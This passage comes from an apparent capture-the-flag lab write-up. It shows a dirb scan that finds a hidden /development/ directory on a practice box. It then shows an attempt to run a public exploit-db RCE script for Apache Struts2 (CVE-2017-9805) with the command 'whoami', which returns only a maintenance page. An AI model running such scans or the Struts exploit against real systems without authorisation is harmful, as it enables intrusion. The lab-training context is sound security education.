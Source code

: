 3. What is the name of the hidden directory on the webserver(enter name without /)?

As suggested in the first question we can run a `dirb` scan to find out all the directories on the webserver.

```
tester@kali:~$ dirb http://10.10.56.30
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
START_TIME: Sun Jul 26 16:12:15 2020
URL_BASE: http://10.10.56.30/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://10.10.56.30/ ----
==> DIRECTORY: http://10.10.56.30/development/                                                                                                                
+ http://10.10.56.30/index.html (CODE:200|SIZE:158)                                                                                                           
+ http://10.10.56.30/server-status (CODE:403|SIZE:299)                                                                                                        	                                                                                                                                                            
---- Entering directory: http://10.10.56.30/development/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)	                                                                               
-----------------
END_TIME: Sun Jul 26 16:24:55 2020
DOWNLOADED: 4612 - FOUND: 2
```

From the `dirb` results we can see that there is exactly one hidden directory and that is the answer to this question.

4. User brute-forcing to find the username & password

I found this part to be a little tricky as no login page was found, so where would I try to perform a brute-force attack. There were a few failed attempts that I've described below:

While exploring the hidden directory we come to know that Apache Struts 2.5.12 is running on the box. So, we can try to find some exploit for that service. After some googling, we can find an [RCE script](https://www.exploit-db.com/exploits/42627) for this service on exploit-db and then we can also try to run it. 

```
tester@kali:~/Downloads$ chmod +x 42627.py 
tester@kali:~/Downloads$ python3 42627.py 
CVE: 2017-9805 - Apache Struts2 Rest Plugin Xstream RCE
[*] Warflop - http://securityattack.com.br
[*] Greatz: Pimps & G4mbl3r
[*] Use: python struts2.py URL COMMAND
[*] Example: python struts2.py http://sitevulnerable.com/struts2-rest-showcase/orders/3 id
tester@kali:~/Downloads$ python3 42627.py http://10.10.56.30 whoami
<html>
<h1>Undergoing maintenance</h1>
<h4>Please check back later</h4>
<!-- Check our dev note section if you need to know what to work on. -->
</html>
```

